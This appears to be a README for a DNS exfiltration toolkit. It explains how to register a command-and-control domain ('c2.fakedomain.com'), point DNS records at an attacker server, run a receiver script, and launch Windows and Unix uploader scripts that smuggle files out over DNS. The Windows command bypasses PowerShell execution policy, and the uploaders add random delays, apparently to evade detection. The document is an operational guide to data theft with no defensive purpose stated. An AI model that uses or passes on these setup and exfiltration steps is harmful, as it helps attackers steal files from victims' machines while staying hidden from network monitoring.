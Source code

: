 DNS Exfiltration Tools

Infrastrucutre Set Up:
MUST OWN A DOMAIN AND AN INTERNET CONNECTED SERVER

AWS VM IP: 123.123.123.123
Cloudflare domain: fakedomain.com
In Cloudflare DNS managager:
  Create NS record: c2.fakedomain.com
  Create A record for c2: 123.123.123.123
  Create A records for example.com: 123.123.123.123

Tool Usage:
dns_file_receiver.py (Unix)
  Change the "domain" parameter to: c2.fakedomain.com
  Change the "SOCKET_TIMEOUT" to whatever is appropriate in seconds. This variable defines how long the script will stay active waiting for a connection from the uploaders.
  Run the script: sudo python3 dns_file_receiver.py

dns_file_uploader.ps1 (Windows)
  Change the "domain" parameter to: c2.fakedomain.com
  Run the script: powershell -ExecutionPolicy Bypass -File .\dns_file_uploader.ps1
  Follow the prompts
    File path: quotes can be used
    Domain OR IP: IP address of AWS server (123.123.123.123) or domain name (fakedomain.com)
    Set up a random delay in seconds: #

dns_file_uploader (Unix)
  Change "DNS_SERVER" parameter to: IP address of AWS server (123.123.123.123) or domain name (fakedomain.com)
  Change "domain" parameter to: c2.fakedomain.com
  Run the script: sudo python3 dns_file_uploader.py
    File path: quotes can be used
    Set up a random delay in seconds: #

ns-dns_server.py
  Optional: Change the IP in the "fake_ip" parameter
  
